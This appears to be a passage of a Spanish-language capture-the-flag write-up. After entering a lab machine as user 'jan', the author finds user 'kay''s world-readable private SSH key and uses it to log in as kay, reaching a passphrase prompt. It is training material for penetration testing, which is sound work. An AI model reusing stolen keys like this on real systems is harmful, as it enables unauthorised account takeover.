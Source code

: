 Una vez que conseguí acceso al sistema utilizando las credenciales de "jan", opté por investigar el directorio home de otro usuario, "kay", con la intención de encontrar información relevante. Para ello, ejecuté el comando ls -al, que me mostró una lista detallada de los archivos presentes en /home/kay, incluyendo archivos ocultos, así como sus permisos, propietarios y fechas de modificación.

```bash
jan@basic2:/home/kay$ ls -al
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
```

Uno de los archivos más relevantes que descubrimos es pass.bak. Sin embargo, para poder acceder y leer su contenido, es necesario tener privilegios del usuario "kay".

Accedimos al directorio .ssh del usuario "kay" y encontramos varios archivos, entre ellos el más notable es id_rsa, que es la clave privada SSH del usuario. Este archivo es de particular interés, ya que puede permitirnos acceder a otros sistemas o servicios donde "kay" tenga permisos, utilizando su clave privada. Aquí está el listado de archivos que encontramos:

```bash
jan@basic2:/home/kay/.ssh$ ls -al
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```

Podemos utilizar la clave id_rsa para acceder a la máquina como el usuario "kay". Sin embargo, antes de proceder, debemos asegurarnos de ajustar los permisos de la clave para que sea utilizada correctamente. Esto implica configurar los permisos adecuados para que la clave privada sea legible solo por el usuario actual.

```bash
chmod 600 id_rsa
```

Una vez que hemos configurado los permisos adecuados para la clave id_rsa, podemos proceder a utilizarla para acceder a la máquina con autenticación basada en esta clave.

```bash
ssh kay@10.10.210.76 -i id_rsa
Enter passphrase for key 'id_rsa':
```

